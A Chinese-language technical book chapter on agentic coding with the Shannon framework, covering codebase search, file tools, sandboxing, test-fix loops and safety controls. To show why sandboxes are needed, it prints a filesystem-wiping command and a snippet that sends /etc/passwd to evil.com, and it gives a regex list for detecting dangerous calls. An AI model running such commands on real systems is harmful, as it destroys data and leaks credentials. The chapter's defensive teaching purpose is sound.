


# 第 28 章：Agentic Coding

> **Agentic Coding 不是代码补全的升级版，而是让 Agent 像开发者一样理解代码库、规划实现、编写代码、运行测试、修复 bug。它需要理解整个代码库的结构，而不只是当前文件——这是真正的"自主编程"，也是对沙箱安全的极致考验。**

---

> **⏱️ 快速通道**（5 分钟掌握核心）
>
> 1. 从"补全当前行"到"理解整个代码库"，核心差异是全局上下文
> 2. 代码理解三件套：AST 结构解析、依赖图构建、语义搜索
> 3. 所有代码执行必须在沙箱中，WASI 提供文件/网络/进程隔离
> 4. Edit-Test-Fix 循环：改代码 → 跑测试 → 看失败 → 再修复
> 5. 安全边界是底线：写操作必须限制目录，执行必须设超时
>
> **10 分钟路径**：28.1-28.2 → 28.4 → Shannon Lab

---

凌晨 2 点，你被告警吵醒：生产环境 API 响应时间暴增。

你打开电脑，发现是最近一次上线引入的性能问题。问题定位到一个函数，但修复需要理解它和其他三个模块的交互。你半睡半醒地改了代码，跑了测试，发现改动破坏了另一个功能...

现在想象一下：你只需要告诉 Agent "这个 API 太慢了，帮我优化一下"，它就能：
1. 分析整个调用链，找到性能瓶颈
2. 理解相关模块的依赖关系
3. 生成修复代码
4. 在沙箱中运行测试确认修复有效
5. 提交 PR，附上详细的改动说明

这就是 Agentic Coding 的愿景。不是帮你补全一行代码，而是帮你完成一个完整的开发任务。

但愿景归愿景，现实中这件事难度极高。代码不是孤立的文本，它有结构、有依赖、有副作用。Agent 写的代码要能跑、跑得对、还不能把系统搞挂。

这一章，我们来拆解 Agentic Coding 的核心挑战和实现路径。

---

## 28.1 什么是 Agentic Coding

### 从代码补全到自主编程

先澄清一个误区：Agentic Coding 不是 Copilot 的升级版。

| 维度 | 代码补全 (Copilot) | Agentic Coding |
|------|-------------------|----------------|
| 作用范围 | 当前光标位置 | 整个代码库 |
| 上下文理解 | 当前文件 | 跨文件依赖关系 |
| 决策权 | 人类决定写什么 | Agent 决定写什么 |
| 执行能力 | 无 | 可以运行代码、测试 |
| 迭代能力 | 无 | 可以根据反馈修改 |

代码补全是"你想到哪，它帮你打到哪"。Agentic Coding 是"你说要什么，它帮你实现"。

一个完整的 Agentic Coding 流程：

```
用户: "给用户服务添加邮件验证功能"
         |
         v
+-------------------+
| 1. 理解需求       |  - 解析任务目标
| 2. 分析代码库     |  - 找到相关文件和函数
| 3. 规划实现       |  - 设计修改方案
| 4. 编写代码       |  - 生成新代码/修改现有代码
| 5. 运行测试       |  - 在沙箱中验证
| 6. 迭代修复       |  - 根据测试结果调整
| 7. 提交变更       |  - 生成 PR/commit
+-------------------+
```



### 核心能力分解

Agentic Coding 需要以下能力的协同：

| 能力 | 描述 | 对应工具 |
|------|------|----------|
| **代码理解** | 解析代码结构、依赖关系 | AST 分析、语义搜索 |
| **代码导航** | 跨文件跳转、查找定义 | LSP、grep/ripgrep |
| **代码生成** | 写新代码、修改现有代码 | LLM + 编辑工具 |
| **代码执行** | 在隔离环境运行代码 | Docker/WASI 沙箱 |
| **测试验证** | 运行测试、分析结果 | 测试框架集成 |
| **版本控制** | 管理代码变更 | Git 操作 |

---

## 28.2 代码库理解：不只是读文件

Agentic Coding 的第一步是理解代码库。这听起来简单，但实际上是最难的部分之一。

### 为什么难？

一个中等规模的代码库可能有：
- 10,000+ 文件
- 500,000+ 行代码
- 复杂的模块依赖关系
- 隐式的调用链

你不能把整个代码库塞进 LLM 的上下文窗口（即使有 1M tokens，也不够）。必须有策略地选择相关代码。

### 代码索引策略

在 Shannon 中，文件操作工具有明确的读取限制和范围控制：

```python
# 摘自 python/llm-service/llm_service/tools/builtin/file_ops.py

class FileReadTool(Tool):
    """Safe file reading tool with sandboxing support"""

    def _get_parameters(self) -> List[ToolParameter]:
        return [
            ToolParameter(
                name="path",
                type=ToolParameterType.STRING,
                description="Path to the file to read",
                required=True,
            ),
            ToolParameter(
                name="max_size_mb",
                type=ToolParameterType.INTEGER,
                description="Maximum file size in MB to read",
                required=False,
                default=10,
                min_value=1,
                max_value=100,
            ),
        ]

    async def _execute_impl(self, **kwargs) -> ToolResult:
        # ... 省略验证逻辑 ...

        # Allowlist of readable directories
        allowed_dirs = [Path("/tmp").resolve(), Path.cwd().resolve()]
        workspace = os.getenv("SHANNON_WORKSPACE")
        if workspace:
            allowed_dirs.append(Path(workspace).resolve())

        # Ensure path is within an allowed directory
        if not any(_is_allowed(path_absolute, base) for base in allowed_dirs):
            return ToolResult(
                success=False,
                output=None,
                error=f"Reading {path_absolute} is not allowed. Use workspace or /tmp directory.",
            )
```

核心设计点：
- `max_size_mb` 限制：防止一次读取超大文件
- `allowed_dirs` 白名单：只允许读取工作区和临时目录
- 路径规范化：防止符号链接逃逸

### 语义搜索 vs 关键词搜索

找到相关代码有两种方式：

| 方式 | 适用场景 | 局限 |
|------|----------|------|
| **关键词搜索** (grep) | 找函数名、变量名、错误信息 | 找不到"意图相关"的代码 |
| **语义搜索** (embedding) | 找"处理用户认证的代码" | 需要预先建立向量索引 |

最佳实践是两者结合：

```python
# 概念示例：混合搜索策略

class CodeSearcher:
    """代码库搜索器"""

    def search(self, query: str) -> List[CodeChunk]:
        # 1. 提取可能的标识符
        identifiers = self.extract_identifiers(query)

        # 2. 关键词搜索（快，精确）
        keyword_results = []
        for ident in identifiers:
            keyword_results.extend(self.grep_search(ident))

        # 3. 语义搜索（慢，模糊）
        semantic_results = self.vector_search(query)

        # 4. 合并去重，按相关性排序
        return self.merge_and_rank(keyword_results, semantic_results)
```

### 依赖图构建

理解代码不仅仅是找到文件，还需要理解模块之间的依赖关系：

```python
# 概念示例：依赖图分析

class DependencyAnalyzer:
    """分析模块间的依赖关系"""

    def build_dependency_graph(self, entry_file: str) -> DependencyGraph:
        """从入口文件构建依赖图"""
        graph = DependencyGraph()
        visited = set()

        def visit(file_path: str):
            if file_path in visited:
                return
            visited.add(file_path)

            # 解析文件，提取 import/require 语句
            imports = self.parse_imports(file_path)

            for imp in imports:
                resolved = self.resolve_import(file_path, imp)
                if resolved:
                    graph.add_edge(file_path, resolved)
                    visit(resolved)

        visit(entry_file)
        return graph

    def find_affected_files(self, modified_file: str) -> List[str]:
        """找到修改某个文件可能影响的所有文件"""
        return self.graph.get_dependents(modified_file)
```

---

## 28.3 代码生成与编辑

### 两种编辑模式

Agent 修改代码有两种方式：

| 模式 | 描述 | 适用场景 | 风险 |
|------|------|----------|------|
| **全文重写** | 生成完整文件替换原文件 | 新文件、小文件 | 可能丢失非相关改动 |
| **精确编辑** | 只修改特定行/区块 | 大文件、局部修改 | 需要精确定位 |

Shannon 的文件写入工具采用安全的覆盖模式：

```python
# 摘自 python/llm-service/llm_service/tools/builtin/file_ops.py

class FileWriteTool(Tool):
    """Safe file writing tool with sandboxing support"""

    def _get_metadata(self) -> ToolMetadata:
        return ToolMetadata(
            name="file_write",
            description="Write content to a file",
            requires_auth=True,  # Writing requires auth
            sandboxed=True,
            dangerous=True,  # File writing is potentially dangerous
            cost_per_use=0.001,
        )

    def _get_parameters(self) -> List[ToolParameter]:
        return [
            ToolParameter(
                name="mode",
                type=ToolParameterType.STRING,
                description="Write mode: 'overwrite' replaces existing file, 'append' adds to end",
                required=False,
                default="overwrite",
                enum=["overwrite", "append"],
            ),
            ToolParameter(
                name="create_dirs",
                type=ToolParameterType.BOOLEAN,
                description="Create parent directories if they don't exist",
                required=False,
                default=False,
            ),
        ]
```

注意关键标记：
- `requires_auth=True`：写文件需要授权
- `dangerous=True`：写文件是潜在危险操作
- `sandboxed=True`：限制在沙箱目录内

### 精确编辑的挑战

当 Agent 需要修改大文件中的某几行时，容易出现以下问题：

1. **行号漂移**：如果之前有其他修改，行号会变
2. **上下文不匹配**：Agent 记忆中的代码和实际文件不同步
3. **缩进错误**：生成的代码缩进和原文件不一致

解决方案：使用锚点而不是行号：

```python
# 概念示例：基于锚点的精确编辑

class CodeEditor:
    """基于锚点的代码编辑器"""

    def apply_edit(
        self,
        file_path: str,
        anchor_before: str,  # 修改位置前的唯一文本
        anchor_after: str,   # 修改位置后的唯一文本
        new_content: str,    # 新的内容
    ) -> EditResult:
        """
        在锚点之间插入/替换内容

        例如：
        anchor_before = "def calculate_total("
        anchor_after = "    return total"
        new_content = "    # Add validation\n    if not items:\n        return 0\n"
        """
        content = self.read_file(file_path)

        # 找到锚点位置
        start = content.find(anchor_before)
        end = content.find(anchor_after)

        if start == -1 or end == -1:
            return EditResult(success=False, error="Anchor not found")

        # 应用编辑
        new_content = (
            content[:start + len(anchor_before)]
            + new_content
            + content[end:]
        )

        return self.write_file(file_path, new_content)
```

---

## 28.4 沙箱执行：最关键的安全层

Agent 生成的代码必须在隔离环境中执行。这不是可选的——这是必须的。

### 为什么必须有沙箱？

想象 Agent 生成了这样的代码：

```python
import os
os.system("rm -rf /")  # 删除整个文件系统
```

或者更隐蔽的：

```python
import requests
data = open("/etc/passwd").read()
requests.post("https://evil.com/collect", data=data)
```

如果没有沙箱，这些代码会在你的服务器上真实执行。

### 沙箱选择

| 技术 | 隔离级别 | 启动速度 | 复杂度 | 适用场景 |
|------|----------|----------|--------|----------|
| **Docker** | 进程级 | 秒级 | 中 | 通用场景 |
| **WASI** | 字节码级 | 毫秒级 | 高 | 受信代码 |
| **gVisor** | 系统调用级 | 秒级 | 高 | 高安全需求 |
| **Firecracker** | 虚拟机级 | 百毫秒级 | 中 | 生产环境 |

Shannon 选择 WASI 作为主要沙箱机制，在架构文档中有说明。WASI 的优势是：
- 超快启动（毫秒级）
- 细粒度的能力控制（文件系统、网络、时间等）
- 资源占用小

### Docker 沙箱实现

对于通用场景，Docker 是最容易实现的选择：

```python
# 概念示例：Docker 沙箱执行

import docker
import tempfile
import os

class DockerSandbox:
    """Docker 沙箱执行器"""

    def __init__(self):
        self.client = docker.from_env()

    async def execute(
        self,
        code: str,
        language: str,
        timeout_seconds: int = 30,
        memory_limit: str = "256m",
        network_disabled: bool = True,
    ) -> ExecutionResult:
        """在 Docker 沙箱中执行代码"""

        # 1. 创建临时工作目录
        with tempfile.TemporaryDirectory() as work_dir:
            # 2. 写入代码文件
            code_file = os.path.join(work_dir, f"main.{self._get_extension(language)}")
            with open(code_file, "w") as f:
                f.write(code)

            # 3. 选择镜像和命令
            image, cmd = self._get_runtime(language)

            # 4. 运行容器
            try:
                container = self.client.containers.run(
                    image=image,
                    command=cmd,
                    volumes={work_dir: {"bind": "/workspace", "mode": "rw"}},
                    working_dir="/workspace",
                    mem_limit=memory_limit,
                    network_disabled=network_disabled,  # 禁用网络
                    read_only=True,  # 只读文件系统
                    detach=True,
                    user="nobody",  # 非 root 用户
                )

                # 5. 等待完成，获取输出
                result = container.wait(timeout=timeout_seconds)
                logs = container.logs().decode("utf-8")

                return ExecutionResult(
                    success=result["StatusCode"] == 0,
                    output=logs,
                    exit_code=result["StatusCode"],
                )

            except docker.errors.ContainerError as e:
                return ExecutionResult(
                    success=False,
                    output=str(e),
                    exit_code=-1,
                )
            finally:
                try:
                    container.remove(force=True)
                except:
                    pass
```

关键安全配置：
- `network_disabled=True`：禁止网络访问
- `read_only=True`：只读文件系统
- `mem_limit`：内存限制
- `user="nobody"`：非特权用户

---

## 28.5 测试驱动的迭代循环

Agentic Coding 不是一次生成就结束。Agent 需要运行测试、分析错误、迭代修复。

### 测试-修复循环

```
+------------------+
|  生成代码        |
+--------+---------+
         |
         v
+------------------+
|  运行测试        |
+--------+---------+
         |
    测试结果?
   /          \
  通过        失败
   |            |
   v            v
+--------+  +------------------+
| 完成   |  | 分析错误         |
+--------+  +--------+---------+
                     |
                     v
            +------------------+
            | 生成修复代码     |
            +--------+---------+
                     |
                     +----> 回到"运行测试"
```



### 错误分析与修复

Agent 需要能够理解测试失败的原因：

```python
# 概念示例：测试错误分析

class TestErrorAnalyzer:
    """分析测试错误并生成修复建议"""

    def analyze(self, test_output: str, code_context: str) -> ErrorAnalysis:
        """分析测试输出，生成修复建议"""

        # 1. 提取错误类型和位置
        error_info = self.parse_error(test_output)

        # 2. 准备 LLM 提示
        prompt = f"""
分析以下测试失败并提供修复方案。

## 测试输出
{test_output}

## 相关代码
{code_context}

## 错误信息
类型: {error_info.type}
位置: {error_info.location}
消息: {error_info.message}

请分析：
1. 根本原因是什么？
2. 需要修改哪些文件的哪些部分？
3. 具体的修复代码是什么？

输出格式 (JSON):
{{
    "root_cause": "错误根本原因分析",
    "affected_files": ["file1.py", "file2.py"],
    "fixes": [
        {{
            "file": "file1.py",
            "anchor_before": "def problematic_function(",
            "anchor_after": "return result",
            "new_code": "修复后的代码"
        }}
    ],
    "confidence": 0.85
}}
"""
        # 3. 调用 LLM
        response = await self.llm.generate(prompt)
        return self.parse_analysis(response)
```

### 防止死循环

Agent 可能陷入"修复 A 导致 B 失败，修复 B 又导致 A 失败"的循环。

```python
# 概念示例：修复循环检测

class FixLoopDetector:
    """检测修复循环"""

    def __init__(self, max_iterations: int = 5):
        self.max_iterations = max_iterations
        self.fix_history: List[str] = []

    def should_continue(self, current_fix: str) -> bool:
        """判断是否应该继续修复"""

        # 1. 超过最大迭代次数
        if len(self.fix_history) >= self.max_iterations:
            return False

        # 2. 检测相似的修复（可能是循环）
        fix_hash = self.hash_fix(current_fix)
        if fix_hash in [self.hash_fix(f) for f in self.fix_history[-3:]]:
            # 最近3次修复中有相似的，可能进入循环
            return False

        self.fix_history.append(current_fix)
        return True
```

---

## 28.6 版本控制集成

Agentic Coding 的产出通常是 Git commit 或 Pull Request。

### 自动生成 Commit Message

Agent 应该能够根据代码变更生成有意义的 commit message：

```python
# 概念示例：生成 commit message

async def generate_commit_message(diff: str, task_description: str) -> str:
    """根据代码变更生成 commit message"""

    prompt = f"""
根据以下代码变更生成 Git commit message。

## 任务描述
{task_description}

## 代码变更 (git diff)
{diff[:4000]}  # 限制长度

## 要求
1. 使用 Conventional Commits 格式 (feat/fix/refactor/...)
2. 第一行不超过 72 字符
3. 描述"为什么"而不是"做了什么"
4. 如果有 breaking changes，在 footer 中说明

输出 commit message:
"""
    return await llm.generate(prompt)
```

### 创建 Pull Request

完整的代码变更应该通过 PR 提交，方便人工审查：

```python
# 概念示例：创建 PR

class PRCreator:
    """创建 Pull Request"""

    async def create_pr(
        self,
        repo: str,
        branch: str,
        title: str,
        changes: List[FileChange],
        tests_passed: bool,
    ) -> PRResult:
        """创建 PR 并附上详细说明"""

        # 1. 创建分支并提交变更
        await self.git.create_branch(branch)
        for change in changes:
            await self.git.apply_change(change)
        await self.git.commit(await self.generate_commit_message())
        await self.git.push(branch)

        # 2. 生成 PR 描述
        description = await self.generate_pr_description(
            changes=changes,
            tests_passed=tests_passed,
        )

        # 3. 创建 PR
        pr = await self.github.create_pull_request(
            title=title,
            body=description,
            head=branch,
            base="main",
        )

        return PRResult(pr_url=pr.url, pr_number=pr.number)
```

---

## 28.7 多模型协作

复杂的编码任务可能需要不同模型的协作。

### 模型分工

Shannon 的模型配置展示了不同模型的定位：

```yaml
# 摘自 config/models.yaml
model_capabilities:
  coding_specialists:
    - codestral-22b-v0.1      # 专门优化的编码模型
    - deepseek-v3.2           # 代码能力强
    - claude-sonnet-4-5-20250929  # 通用+代码
    - gpt-5-pro-2025-08-07    # 重推理
    - gpt-5.1                 # 最强通用
```

不同任务可以用不同模型：

| 任务类型 | 推荐模型层级 | 原因 |
|----------|-------------|------|
| 代码搜索/导航 | Small | 不需要复杂推理 |
| 简单代码生成 | Medium (coding specialist) | 专门优化 |
| 架构设计/重构 | Large (reasoning) | 需要深度思考 |
| 测试用例生成 | Medium | 模式化工作 |
| Bug 分析 | Large | 需要理解复杂交互 |

### 路由策略

```python
# 概念示例：编码任务模型路由

class CodingModelRouter:
    """根据任务类型选择模型"""

    def select_model(self, task_type: str, code_complexity: str) -> str:
        routing_rules = {
            # (任务类型, 复杂度) -> 模型层级
            ("search", "any"): "small",
            ("generate", "simple"): "medium",
            ("generate", "complex"): "large",
            ("refactor", "any"): "large",
            ("test_gen", "any"): "medium",
            ("bug_fix", "simple"): "medium",
            ("bug_fix", "complex"): "large",
        }

        tier = routing_rules.get(
            (task_type, code_complexity),
            routing_rules.get((task_type, "any"), "medium")
        )

        return self.get_model_for_tier(tier)
```

---

## 28.8 安全考量

Agentic Coding 涉及代码执行，安全风险极高。

### 风险矩阵

| 风险 | 描述 | 严重程度 | 缓解措施 |
|------|------|----------|----------|
| **代码注入** | Agent 生成恶意代码 | 高 | 沙箱执行 |
| **数据泄露** | 代码读取敏感数据并外传 | 高 | 网络隔离 |
| **资源耗尽** | 无限循环消耗资源 | 中 | 超时和资源限制 |
| **供应链攻击** | 安装恶意依赖 | 高 | 依赖白名单 |
| **提权攻击** | 利用漏洞获得更高权限 | 高 | 最小权限原则 |

### 敏感操作需要审批

```python
# 概念示例：敏感操作检测

SENSITIVE_PATTERNS = [
    r"os\.system",
    r"subprocess\.",
    r"eval\(",
    r"exec\(",
    r"__import__",
    r"open\([^)]*['\"](\/etc|\/root|\/home)",
    r"requests\.(get|post|put|delete)",
    r"socket\.",
    r"rm\s+-rf",
    r"DROP\s+TABLE",
]

def check_code_safety(code: str) -> List[SecurityWarning]:
    """检查代码中的潜在危险操作"""
    warnings = []

    for pattern in SENSITIVE_PATTERNS:
        matches = re.findall(pattern, code, re.IGNORECASE)
        if matches:
            warnings.append(SecurityWarning(
                pattern=pattern,
                matches=matches,
                risk_level="high",
            ))

    return warnings
```

### 人工审批点

某些操作必须经过人工审批：

```python
# 概念示例：需要人工审批的操作

REQUIRES_APPROVAL = [
    "modify_production_config",  # 修改生产配置
    "delete_files",              # 删除文件
    "install_dependencies",      # 安装新依赖
    "modify_security_rules",     # 修改安全规则
    "access_secrets",            # 访问密钥
]

async def execute_with_approval(operation: str, details: dict) -> bool:
    """执行需要审批的操作"""

    if operation in REQUIRES_APPROVAL:
        approval = await request_human_approval(
            operation=operation,
            details=details,
            risk_assessment=assess_risk(operation, details),
        )

        if not approval.approved:
            return False

    return await execute_operation(operation, details)
```

---

## 28.9 常见的坑

### 坑 1：上下文窗口溢出

Agent 尝试把整个代码库塞进提示词。

```python
# 错误：读取所有文件
all_code = ""
for file in repo.get_all_files():
    all_code += read_file(file)  # 可能超过上下文限制

# 正确：按需检索相关代码
relevant_files = search_relevant_code(task_description)
context = summarize_large_files(relevant_files[:10])
```

### 坑 2：测试污染

Agent 修改了测试数据或测试本身，导致测试"通过"但实际代码有问题。

```python
# 解决方案：隔离测试环境

class TestIsolation:
    def run_tests(self, code_changes: List[Change]) -> TestResult:
        # 1. 创建隔离的测试环境
        with TemporaryTestEnvironment() as env:
            # 2. 应用代码变更（不包括测试文件）
            for change in code_changes:
                if not self.is_test_file(change.file):
                    env.apply_change(change)

            # 3. 使用原始测试文件
            env.copy_tests_from_main()

            # 4. 运行测试
            return env.run_tests()
```

### 坑 3：依赖地狱

Agent 随意添加依赖，导致依赖冲突或安全问题。

```python
# 解决方案：依赖白名单

APPROVED_DEPENDENCIES = {
    "python": ["requests", "numpy", "pandas", ...],
    "javascript": ["lodash", "axios", ...],
}

def validate_dependency(language: str, package: str) -> bool:
    if package not in APPROVED_DEPENDENCIES.get(language, []):
        raise DependencyNotApproved(
            f"Package '{package}' not in approved list. "
            f"Request approval before adding."
        )
    return True
```

### 坑 4：Git 状态混乱

Agent 在 dirty 的 Git 状态下操作，导致变更混乱。

```python
# 解决方案：操作前确保干净状态

async def ensure_clean_state():
    status = await git.status()
    if status.has_changes:
        # 暂存当前更改
        await git.stash()
        return GitStateGuard(stashed=True)
    return GitStateGuard(stashed=False)

# 使用
async with ensure_clean_state():
    await agent.apply_changes()
```

---

## 28.10 回顾

1. **Agentic Coding 定义**：不是代码补全，而是端到端的自主编程能力
2. **代码库理解**：混合使用关键词搜索和语义搜索，按需检索相关代码
3. **沙箱执行**：必须在隔离环境运行 Agent 生成的代码，Docker 或 WASI
4. **测试驱动迭代**：运行测试、分析错误、修复代码的循环
5. **多层安全**：代码审查、敏感操作审批、资源限制

---

## Shannon Lab（10 分钟上手）

本节帮你在 10 分钟内把本章概念对应到 Shannon 源码。

### 必读（1 个文件）

- `python/llm-service/llm_service/tools/builtin/file_ops.py`：文件读写工具的沙箱设计

### 选读深挖（2 个，按兴趣挑）

- `config/models.yaml` 中的 `coding_specialists`：了解专门优化编码能力的模型
- `docs/multi-agent-workflow-architecture.md`：理解如何把 Coding Agent 集成到多 Agent 系统

---

## 练习

### 练习 1：设计依赖检查器

设计一个系统，在 Agent 尝试安装新依赖时：
1. 检查依赖是否在白名单中
2. 检查依赖的安全评级（可以用 snyk 或 npm audit）
3. 如果不在白名单，请求人工审批

### 练习 2：实现代码搜索

实现一个混合搜索器，支持：
1. 关键词搜索（grep）
2. 函数/类名搜索（AST）
3. 语义搜索（embedding）

对于查询 "找到处理用户登录的代码"，设计搜索策略。

### 练习 3（进阶）：测试隔离

设计一个测试隔离系统：
1. Agent 只能修改源代码，不能修改测试代码
2. 测试运行在隔离环境，有独立的数据库/文件系统
3. 防止 Agent 通过修改测试数据来"通过"测试

---

## 进一步阅读

- **Docker SDK for Python** - https://docker-py.readthedocs.io/
- **Tree-sitter** (代码解析) - https://tree-sitter.github.io/
- **Aider** (开源 AI 编程工具) - https://aider.chat/

---

## 下一章预告

Agentic Coding 通常是用户发起的交互式任务。但有些编程任务需要定时执行、后台运行。

下一章讲 **Background Agents**——让 Agent 在后台持续运行，处理定时任务、监控告警、自动修复。

用户不在线，Agent 也能工作。但这带来新的挑战：没有人工实时监督，如何确保 Agent 行为可控？运行 8 小时后出了问题，如何追溯和恢复？

而且，后台任务需要持久化状态——如果服务重启，任务不能丢失。这就需要工作流引擎。

下一章，我们来看 Shannon 是如何用 Temporal 实现可靠的后台 Agent 的。

准备好了？往下走。
